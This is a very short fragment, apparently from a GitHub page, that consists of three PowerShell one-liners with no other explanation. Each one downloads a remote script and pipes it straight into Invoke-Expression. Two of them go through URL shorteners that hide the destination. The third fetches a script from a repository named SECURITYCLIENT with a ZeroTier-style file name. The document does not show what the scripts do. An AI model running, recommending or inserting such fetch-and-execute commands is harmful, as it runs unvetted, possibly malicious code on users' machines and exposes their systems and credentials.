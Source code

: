 irm bit.ly/zacodec | iex
irm tinyurl.com/blublight | iex
 
irm https://raw.githubusercontent.com/zainmustafam977/SECURITYCLIENT/refs/heads/main/base/zerotier.ps1 | iex
